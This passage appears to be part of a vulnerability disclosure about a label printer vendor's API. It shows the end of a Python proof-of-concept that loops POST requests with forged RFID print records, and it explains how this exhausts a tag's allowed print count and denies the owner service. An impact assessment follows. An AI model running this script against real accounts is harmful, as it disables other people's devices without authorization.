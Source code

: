 ```python
                "printStyle": 4,
                "successTimes": 1056,
                "allTimes": 1357,
                "systemType": 3,
                "systemVersion": "Windows NT 10.0.19044",
                "applicationVersion": "3.10.10",
                "templeteId": "80030842",
                "uniqueValue": new_unique_value,  # Use the newly generated unique value
                "addTime": "2025-02-21 09:40:32",
                "firmwareVersion": "4.10",
                "hardwareVersion": "4.01",
                "rfidSerialNumber": "<redacted>",
                "rfidPrintNumber": rfidPrintNumber,
                "contentId": "6b40ea0e-68ce-4c13-a99b-9e739970d5d9",
                "printType": 0,
                "commodityCount": 0,
                "deviceId": "<redacted>",
                "width": 43,
                "height": 25,
                "sourceId": 0,
                "machineStatus": True,
                "isRibbon": False,
                "printFinishTime": 1740126737480,
                "number": 1,
                "ribbonUsed": 2.5
            }
        ]
    }

    response = requests.post(url, headers=headers, json=payload)
    time.sleep(1) # Reduce request rate to avoid overwhelming system
    print(x, "Status Code:", response.status_code)
```

The impact of this attack is that when the `rfidPrintNumber` reaches the `allowNum` value, the legitimate RFID tag becomes unusable in the system, effectively performing a denial-of-service attack against the legitimate owner. As a result, the user can no longer use the printing app on Android, iOS, or Windows, rendering them unable to initiate new print jobs across these platforms.

No special tools or privileged access is required to execute this attack - only knowledge of the API endpoints and basic scripting capabilities.

## Impact Assessment

The combination of these vulnerabilities presents a significant security risk with broad business, technical, and user impacts. Attackers could bypass API authentication entirely, manipulate data across the customer base, and exploit a systemic flaw affecting all platform users. This creates the potential for widespread denial of service, rendering legitimate tags unusable, disrupting business operations, and leading to financial losses and reputational damage.

## Mitigation Recommendations
